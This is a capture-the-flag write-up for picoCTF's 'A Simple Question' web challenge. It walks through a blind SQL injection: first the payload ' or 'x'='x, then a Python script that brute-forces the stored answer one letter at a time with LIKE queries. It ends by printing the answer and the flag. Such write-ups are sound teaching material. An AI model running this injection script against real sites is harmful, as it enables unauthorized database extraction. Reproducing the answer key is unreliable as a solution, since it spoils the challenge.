 ```yaml
---
layout: writeup
title: 'A Simple Question'
level:
difficulty:
points: 650
categories: [web]
tags: []
flag: picoCTF{qu3stions_ar3_h4rd_d3850719}
---
```

## Challenge

There is a website running at http://2018shell1.picoctf.com:36052
(link). Try to see if you can answer its question.

## Solution

we get a form looking for an answer

![](writeupfiles/simplequestion.png)

if we enter a value of `a` we are given the SQL statement constructed
and message that we were wrong.

![](writeupfiles/simplequestion_wrong.png)

Let's see what happens when we enter `' or 'x'='x`

![](writeupfiles/simplequestion_close.png)

ok, so we get a different message if the query returns something, this
we can use.
We can give an snwer like `' OR answer LIKE 'a%` to test if it starts
with a letter a, and build up answer like that. Since this will takea
while, we script it

    import requests
    import string

    url="http://2018shell1.picoctf.com:36052/answer2.php"
    alphabet=string.printable.replace('%','').replace("'",'')
    password=''

    stop = False
    while not stop:
        for c in alphabet:
            params = {'answer': "' OR answer LIKE '"+password+c+"%", 'debug': '1'}
            r = requests.post(url, data=params)

            if "so close" in r.text:
                password += c
                print("letter found! "+password)
                break
            elif "Wrong" not in r.text:
                stop = True
                print(r.text)
                break

    print(password)
{: .language-python}

this outputs

    letter found! 4
    letter found! 41
    letter found! 41a
    letter found! 41an
    letter found! 41and
    letter found! 41ands
    letter found! 41andsi
    letter found! 41andsix
    letter found! 41andsixs
    letter found! 41andsixsi
    letter found! 41andsixsix
    letter found! 41andsixsixt
    letter found! 41andsixsixth
    letter found! 41andsixsixths

but now what..? this is not the flag, nor the answer to put in the form.
Nor is `42`

turns out the query wasn't case sensitive, and the answer we are looking
for is
`41AndSixSixths`. When we put that in the form we get the flag:

    SQL query: SELECT * FROM answers WHERE answer='41AndSixSixths'

    Perfect!

    Your flag is: picoCTF{qu3stions_ar3_h4rd_d3850719}


